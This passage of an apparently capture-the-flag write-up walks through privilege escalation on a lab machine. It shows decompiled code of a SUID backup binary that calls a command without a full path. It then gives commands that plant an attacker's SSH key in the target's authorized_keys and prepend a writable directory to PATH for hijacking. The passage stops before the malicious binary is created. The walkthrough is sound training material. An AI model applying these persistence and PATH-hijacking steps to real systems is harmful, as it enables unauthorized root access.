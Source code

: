 ```bash
  }
  else {
     puts("Backup failed!\nCheck your permissions!");
  }
  return iVar1 != 0;
```

We realise the command used it not using a full path. This means we can inject our own PATH to the binary (path variable hijacking). What is also weird is that the binary should’ve ran with root privilge since it got it’s SUID set, yet we still didn’t have privilege to execute it. Maybe we are in a restricted shell. Let’s get a proper shell:

```bash
#Let's create a ssh key on attack host
ssh-keygen -f matt
cat matt.pub

ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJlcj2wy55Z6EifPcJLr3ywCBmvG77ZdAxeGRckIJAC5 kali@kali

#Now cat the content and echo it to authorized_keys on target host
mkdir .ssh
cd .ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJlcj2wy55Z6EifPcJLr3ywCBmvG77ZdAxeGRckIJAC5 kali@kali" >> authorized_keys

#Now we try to login:
chmod 600 matt #change to secure permission to allow use of private key

ssh -i matt matt@10.10.11.136

```

We now have proper ssh shell. Let’s test if we can run the binary now:

```bash
/usr/bin/pandora_backup 
```

![image.png]({{ site.baseurl }}/assets/pandora/image%2015.png)

Let’s change our PATH variable:

```bash
export PATH=/home/matt:$PATH

#now verify
env 

PATH=/home/matt:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

```

Now let’s create our binary:
